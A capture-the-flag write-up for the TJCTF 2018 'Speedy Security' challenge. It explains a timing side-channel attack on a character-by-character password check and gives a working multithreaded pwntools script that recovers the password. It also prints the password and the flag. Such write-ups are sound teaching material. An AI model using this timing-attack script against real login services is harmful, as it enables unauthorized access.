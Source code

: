 ```yaml
---
title: Speedy Security
contest: TJCTF 2018
authors: GabiTulba
layout: writeup
---
```


## Problem statement:
>I hear there's a flag hiding behind this new service, Speedy Security(TM). Can you find it?
>nc problem1.tjctf.org 8003

<br>

## My opinion:
The idea of this problem was pretty simple, perform a timing attack on a password checker. Easier said than done if you ask me. 
<br><br>

## The challenge:
Connecting through netcat on the server we get the following message:
```
Welcome to Speedy Security(TM), where we'll check your password as much as you like, for added security!
How many times would you like us to check each character of your password?
1
Please enter your password:
1
Authorization failed!
```

<br>

Ok so practically, we have a program that looks like this, or somewhat like this:

```python
def check(input,checks):
	password='thisisthepassword'
	for x in zip(input,password):
		for i in range(checks):
			if(x[0]!=x[1]):
				return 'Authorization failed!'
	return 'flag'
```

<br>

I know it's a wild guess, but after some trial and error that's what I came up with. <br>
Now, it's pretty simple how a [timing attack](https://en.wikipedia.org/wiki/Timing_attack) would work. <br> 
Try for a big number of checks (`10**6` worked for me) for each character of the password all possible characters and choose the one that took the most time to compute. Easy right? Not really, the server had some latency and sometimes it would freeze for a couple seconds. So you couldn't really guess the password in one go, also multithreading saved my life here. One more thing that was essential was to take the average of a few queries (`5` in this case was enough) in order to avoid the server's random latency.

## Getting the password:
I used the following code to get the password, but I had to restart it a few times with the last correct part of the password. I also asked the author for the length of the password, it was 32.<br>
Also, after geting the first 5 characters of the password I took another wild guess assuming the password would be made of alphanumerical characters.<br>

```python
from threading import Thread
from pwn import *
from time import time,sleep
CHECKS='1000000'
steps=5
PASS=''
S=[0 for i in range(256)]
pr='abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ1234567890++'
pr=[ord(x) for x in pr]
def g(p):
	S[p]=0
	print chr(p)
	L=[Thread(target=f,args=(p,)) for i in range(steps)]
	for x in L:
		x.start()
	for x in L:
		x.join()
	S[p]/=steps
	
def f(p):
	s=remote('problem1.tjctf.org','8003')
	s.recvuntil('password?')
	s.sendline(CHECKS)
	s.recvuntil(':')
	x=time()
	s.sendline(PASS+chr(p)+'\x00'*(499-len(PASS)))
	s.recvuntil('failed!')
	y=time()
	S[p]+=y-x
	s.close()

while(1):
	for i in range(0,len(pr),8):
		W=[Thread(target=g,args=(pr[j],)) for j in range(i,i+8)]
		for R in W:
			R.start()
		for R in W:
			R.join()
	l=S
	l=[(l[pr[i]],chr(pr[i])) for i in range(len(pr))]
	print list(reversed(sorted(l)))
	l=list(reversed(sorted(l)))
	p=0
	while(l[p][1]=='+'):
		p+=1
	PASS+=l[p][1]
	print PASS
```

<br>

so the password was: **TkVWM3IgZ29OTjQgRzF2MyB5MHUgdVAK** <br>

```
Welcome to Speedy Security(TM), where we'll check your password as much as you like, for added security!
How many times would you like us to check each character of your password?
1
Please enter your password:
TkVWM3IgZ29OTjQgRzF2MyB5MHUgdVAK
Successfully authorized.
Welcome back, [[ EVAN ]]
Your flag is  tjctf{char_chks_c4n_b3_SLOW}
```

<br>

Flag: **tjctf{char_chks_c4n_b3_SLOW}**
